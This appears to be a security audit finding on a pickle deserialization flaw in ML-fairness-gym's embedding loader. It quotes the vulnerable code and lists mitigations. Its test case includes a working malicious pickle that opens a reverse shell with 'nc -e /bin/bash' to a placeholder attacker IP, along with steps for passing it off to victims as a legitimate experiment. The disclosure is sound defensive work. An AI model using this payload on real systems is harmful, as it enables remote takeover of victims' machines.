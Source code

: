 - vulnerability name: Pickle Deserialization Vulnerability
- description: A malicious actor could craft a pickle file containing malicious code and replace the legitimate embedding file used by the ML-fairness-gym. When a user loads a simulation environment that uses these embeddings, the `pickle.load` function will deserialize the malicious pickle file, leading to arbitrary code execution on the user's machine.
- impact: Critical. Arbitrary code execution on the user's machine. An attacker could gain full control of the user's system, steal sensitive data, or install malware.
- vulnerability rank: critical
- currently implemented mitigations: No mitigations are currently implemented in the project to prevent pickle deserialization vulnerabilities.
- missing mitigations:
    - Replace `pickle` with a safer serialization format like JSON or YAML for loading embedding data.
    - Implement input validation and sanitization for the embedding file path to ensure only trusted files are loaded.
    - Implement integrity checks for the embedding files to detect tampering.
- preconditions:
    - The user must download and use a maliciously crafted simulation environment that includes a malicious pickle file.
    - The user must run a simulation using this malicious environment.
- source code analysis:
    - File: `/code/environments/recommenders/movie_lens_utils.py`
    - Step 1: The function `load_embeddings(env_config)` is responsible for loading embedding data.
    - Step 2: Inside `load_embeddings`, the code determines the file type based on the suffix of `env_config.embeddings_path`.
    - Step 3: If the suffix is `.pkl` or `.pickle`, it uses `pickle.load` to deserialize the data from the file.
    ```python
    File: /code/environments/recommenders/movie_lens_utils.py
    82 def load_embeddings(env_config):
    ...
    89   suffix = pathlib.Path(path).suffix
    90   if suffix == '.json':
    91     loader = json
    92     logging.info('Reading a json file. %s', path)
    93   elif suffix in ('.pkl', '.pickle'):
    94     loader = pickle
    95     logging.info('Reading a pickle file. %s', path)
    96   else:
    97     raise ValueError('Unrecognized file type! %s' % path)
    98
    99   embedding_dict = loader.load(file_util.open(path, 'rb'))
    ```
    - Step 4: An attacker can replace the file specified by `env_config.embeddings_path` with a malicious pickle file.
    - Step 5: When the user runs a simulation using this environment, `pickle.load` will execute the malicious code embedded in the pickle file.

- security test case:
    - Step 1: Create a malicious pickle file (`malicious_embeddings.pkl`) containing code to execute a reverse shell or similar payload.
    ```python
    import pickle
    import os
    import socket

    class EvilPickle(object):
        def __reduce__(self):
            cmd = "nc -e /bin/bash <attacker_ip> <attacker_port>" # Replace with attacker's IP and port
            return (os.system, (cmd,))

    payload = EvilPickle()
    pickle.dump(payload, open("malicious_embeddings.pkl", "wb"))
    ```
    - Step 2: Create a malicious simulation environment configuration file or modify an existing one to point `embeddings_path` to `malicious_embeddings.pkl`.
    - Step 3: Distribute this malicious simulation environment to the victim, disguised as a legitimate fairness experiment.
    - Step 4: The victim downloads and runs the ML-fairness-gym framework with the malicious simulation environment.
    - Step 5: The ML-fairness-gym framework loads the malicious pickle file using `pickle.load` in `environments/recommenders/movie_lens_utils.py`.
    - Step 6: The malicious code in `malicious_embeddings.pkl` is executed, and the attacker gains a reverse shell on the victim's machine.
    - Step 7: Verify the vulnerability by checking for a connection on the attacker's listening port after the victim runs the simulation.